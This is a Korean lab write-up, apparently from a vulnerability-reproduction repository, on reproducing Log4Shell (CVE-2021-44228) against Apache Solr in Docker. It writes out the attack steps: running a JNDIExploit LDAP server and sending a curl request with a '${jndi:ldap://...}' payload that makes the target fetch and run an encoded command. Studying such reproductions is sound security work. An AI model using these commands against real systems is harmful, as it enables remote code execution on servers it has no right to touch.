





# CVE-2021-44228

**Contributors**

-   [강성원(@rivercastleone)](https://github.com/rivercastleone)

 

### 요약

-   Log4j는 다양한 pattern을 지원, 그 중 JNDI Lookup pattern을 공격자가 삽입하게 되면 Log4j가 JNDI를 통해 LDAP 서버에 접속하여 객체를 참조하게 됨
  
-  공격자는 이 기능을 이용해서 공격자의 서버로 악성 자바 객체를 다운받게 하여 이 코드를 이용해서 서버를 탈취
-  서버에서 다음과 같이 사용자의 User-Agent 정보를 남긴다고 하면 공격자는 User-Agent 정보에 JNDI를 사용하여 LDAP 과 같은 디렉터리 서비스로부터 악성 JAVA 클래스를 가리키는 URI를 반환

 

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.

-   서버가 시작 된 후 `http://your-ip:8983/` Apache의 관리 포털을 찾아봄

-   로그에서 params 필드가 있음을 확인
 
-   `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-ip -p 8888`를 호출하여 공격자 LDAP 서버 및 HTTP 서버 구축
-   `echo -n 'base_encoding_command' | base64` 를 호출하여 실행 시킬 명령어를 인코딩한다 ex) ` echo -n 'touch /tmp/success' | base64`
-  `curl 'http://your-ip:8983/solr/admin/cores?asdf=$\{jndi:ldap://your-ip:1389/Basic/Command/Base64/'base_encoding_command'}'`  를 호출하여 공격자는 JNDI 조회를 통해 악성 서버에 연결하게 됨

 

### 결과

 

### 정리

-   이 취약점은 로그 이벤트 데이터를 삽입하거나 악의적인 코드를 실행할 수 있는 취약점으로, 악용될 경우 시스템의 안정성과 보안에 심각한 위협을 초래할 수 있음. 안전한 운영을 위해 주기적으로 Log4j 라이브러리를 최신 버전으로 업데이트를 하여 취약점을 보완하는 것이 중요함
